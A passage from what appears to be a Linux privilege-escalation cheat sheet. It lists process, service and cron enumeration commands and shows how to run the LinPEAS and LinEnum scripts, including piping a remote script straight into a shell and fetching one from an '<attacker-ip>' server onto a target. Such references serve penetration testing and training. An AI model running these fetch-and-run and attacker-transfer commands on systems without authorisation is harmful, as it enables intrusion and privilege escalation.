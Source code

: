 ```bash
```

### Process and Service Enumeration
```bash
# Running processes
ps aux
ps -ef
ps -eo pid,user,group,command

# Process tree
pstree -p

# Services (systemd)
systemctl list-unit-files --type=service --state=enabled
systemctl list-units --type=service --state=running

# Services (SysV)
service --status-all
ls -la /etc/init.d/

# Cron jobs
crontab -l
cat /etc/crontab
ls -la /etc/cron*
ls -la /var/spool/cron/
cat /var/log/cron*
```

## Automated Scripts

### LinPEAS (Recommended)
```bash
# Download and run
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

# Alternative download methods
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh

# Run from memory (if curl is available)
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | bash

# Transfer from attacker machine
python3 -m http.server 8000  # On attacker
wget http://<attacker-ip>:8000/linpeas.sh  # On target
```

### LinEnum
```bash
# Download and run
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh

# Thorough scan
./LinEnum.sh -t
```
